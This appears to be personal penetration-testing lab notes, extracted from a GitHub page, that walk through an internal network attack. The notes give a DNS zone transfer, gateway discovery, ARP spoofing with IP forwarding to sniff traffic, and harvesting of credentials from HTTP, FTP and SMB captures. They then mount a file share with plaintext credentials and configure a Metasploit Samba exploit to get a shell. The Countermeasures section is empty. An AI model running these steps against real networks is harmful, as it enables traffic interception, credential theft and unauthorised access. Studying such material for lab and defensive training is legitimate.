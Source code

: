 dig @<DNS server> <domain> -t AXFR +nocookie
	// here we can get all the ips and names related to that dns server

- 4 - find the default gateway
we can send 
```
traceroute <some ip> -m 5 -T
```

the packet needs to go through the default gateway
in this case its 172.16.5.1

- 5 - draw a network map
	need to learn that

- 6 - sniff packets in all the directions
before doing that remember to add

```
echo 1 > /proc/sys/net/ipv4/ip_forward


arpspoof -i <interface> -t 172.16.5.5 -r 172.16.5.1
arpspoof -i <interface> -t 172.16.5.1 -r 172.16.5.5
```

	// open wireshark to get the traffic and save
	// driftnet -f <pcap file> or -i <interface> to show the images between the packets, didnt work when i tried

- analyze the pcap files
	http
	ftp
	SMB
	// try to find credentials

> mount the share after getting the credentials

```
mkdir /tmp/finance
mount -t cifs -o user=almir,password=Corinthians2012,rw,vers=1.0 //172.16.5.10/finance /tmp/finance
ls -l /tmp/finance/
```


> once we have 2 credentials, we can try to get a shell
msfconsole
use exploit/linux/samba/is_known_pipename
show options

```
set SMBUser admin
set SMBPass et1@sR7!
set LHOST 172.16.5.101
set SMB::AlwaysEncrypt false
show advanced
```

- Countermeasures
